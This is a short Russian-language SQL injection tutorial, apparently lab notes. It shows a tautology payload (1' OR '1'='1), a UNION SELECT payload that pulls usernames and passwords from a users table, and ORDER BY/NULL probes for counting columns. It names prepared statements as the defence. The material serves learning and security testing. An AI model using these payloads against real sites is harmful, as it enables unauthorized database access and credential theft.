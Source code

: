 ### 💬 Пример:

Обычный запрос:

```sql
SELECT * FROM users WHERE id = '$id'
```

Ты вводишь:

```
1' OR '1'='1
```

→ результат:

```sql
SELECT * FROM users WHERE id = '1' OR '1'='1'
```

* `'1'='1'` — всегда истина → возвращаются **все строки**
* Инъекция влияет на **логическое поведение запроса**

---

## 🧠 UNION-атака

### Когда ты используешь:

```sql
' UNION SELECT user, password FROM users#
```

Ты подменяешь вывод, заставляя базу данных вернуть **объединённый результат** из другой таблицы (`users`).

Важно:

* Кол-во полей в `UNION SELECT` должно совпадать
* Иначе — SQL-ошибка

---

## 🧰 Улучшения/Советы

* 🔎 Используй `ORDER BY` или `UNION SELECT NULL,...` для определения числа столбцов

  ```
  ' ORDER BY 3-- 
  ' UNION SELECT NULL, NULL#
  ```

* 🔐 На реальных сайтах **подготовленные запросы (prepared statements)** полностью защищают от SQLi.

---

## 📘 Таблица по уровням
